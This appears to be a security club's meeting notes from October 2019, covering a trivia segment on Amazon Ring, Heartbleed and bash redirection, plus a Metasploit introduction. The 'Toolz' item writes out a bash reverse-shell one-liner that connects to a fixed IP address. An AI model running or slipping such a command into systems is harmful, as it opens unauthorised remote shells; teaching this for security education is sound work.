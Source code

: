 ```yaml
---
title:  "Meeting Notes for Oct. 10, 2019"
date:   2019-10-10
categories: notes
author: scrypy
---
```

# Meeting Notes Oct. 10, 2019:

## Hacker Jeopardy -> @scrypy
- **Newz:**
  - This popular electronic doorbell has decided to partner with police departments and provide them easy access to footage recorded on the device. (Amazon Ring)
- **Toolz:**
  - `bash -i >& /dev/tcp/10.0.99.45/80 0>&1`
  - redirection notes 
  ```
  There are two formats for  redirecting  standard  output  and  standard
  error:
         &>word
  and
         >&word

  Of the two forms, the first is preferred.  This is semantically equiva-
  lent to
         >word 2>&1

  stdin=0 - stdout=1 - stderr=2
  ```
- **Knawledge:**
  - This is the basic idea behind the famous Heartbleed Vulnerability https://xkcd.com/1354/

## Metasploit Intro -> @scrypy
- Basics of working through an exploit using Metasploit.

<br>
@scrypy
